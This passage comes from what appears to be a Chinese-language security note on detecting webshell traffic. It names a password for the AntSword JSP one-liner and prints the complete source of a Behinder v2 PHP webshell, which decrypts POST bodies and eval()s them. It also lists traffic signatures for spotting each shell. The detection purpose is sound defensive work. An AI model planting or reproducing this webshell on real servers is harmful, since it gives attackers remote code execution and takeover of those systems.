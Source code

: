 流量特征：

- 明文传输。
- ant是jsp一句话木马的password。

![img](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202211091034381.png)

### Behinder 冰蝎2

Webshell代码：

```php
# behinder.php，密码pass

<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
  $post=file_get_contents("php://input");
  if(!extension_loaded('openssl'))
  {
    $t="base64_"."decode";
    $post=$t($post."");
    
    for($i=0;$i<strlen($post);$i++) {
           $post[$i] = $post[$i]^$key[$i+1&15]; 
          }
  }
  else
  {
    $post=openssl_decrypt($post, "AES128", $key);
  }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
  class C{public function __construct($p) {eval($p."");}}
  @new C($params);
}
?>
```

流量特征：

- 密文传输。
- **Response响应包的Content Length为16。**
